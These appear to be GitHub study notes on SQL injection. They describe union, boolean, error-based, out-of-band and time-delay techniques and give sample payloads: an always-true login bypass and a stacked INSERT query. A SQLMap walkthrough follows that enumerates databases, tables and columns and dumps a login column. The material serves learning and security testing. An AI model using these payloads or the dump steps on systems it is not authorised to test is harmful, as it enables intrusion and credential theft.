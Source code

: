 # SQL Injection

SQL injection attack consists of insertion of either a partial or complete SQL query via the data input from the client (Browser) to Application (Server).

## SQL Injection Technique

-	***Union Operator:*** can be used when the SQL injection flaw happens in a SELECT statement, making it possible to combine two queries into a single result or result set.
-	***Boolean:*** use Boolean condition(s) to verify whether certain conditions are true or false.
-	***Error based:*** this technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.
-	***Out-of-band:*** technique used to retrieve data using a different channel (e.g., make a HTTP connection to send the results to a web server).
-	***Time delay:*** use database commands (e.g. sleep) to delay answers in conditional queries. It useful when attacker doesn’t have some kind of answer (result, output, or error) from the application

## Standard SQL Injection Testing

### Example 1 (classical SQL Injection):
Consider the following SQL query:
```
SELECT * FROM Users WHERE Username='$username' AND Password='$password'
$username = 1' or '1' = '1
$password = 1' or '1' = '1
The query will be:
SELECT * FROM Users WHERE Username='1' OR '1' = '1' AND Password='1' OR '1' = '1' 
```

### Example 2 (simple SELECT statement):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10
```

### Example 3 (Stacked queries):
Consider the following SQL query: 
```
SELECT * FROM products WHERE id_product=$id_product
http://www.example.com/product.php?id=10; INSERT INTO users (…)
```

![image](https://user-images.githubusercontent.com/65315090/129912785-f84232fc-a41a-4520-92fa-6c7dfe803e70.png)

![image](https://user-images.githubusercontent.com/65315090/129912819-124fbe54-d140-4133-8a99-0a3092ba3b15.png)

## Tools for SQL Injection

### [SQLMap](https://sqlmap.org/)

**Step-1:** Find Current Database name

`sqlmap –u http://www.nayan.com/item_id=3 --level=5 --risk=3 --current-db --batch` (For Request use: `sqlmap –r Desktop/test.txt --level=5 --risk=3 --current-db --batch`)

**Step-2:** List DBMS database
  `sqlmap –u http://www.nayan.com/item_id=3 --dbs`

**Step-3:** List Tables
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename --tables`
  
**Step-4:** List columns on tables
	`sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info --columns`
  
**Step-5:** List column data from columns
  `sqlmap –u http://www.nayan.com/item_id=3 –D tablename –T user_info –C login --dump`


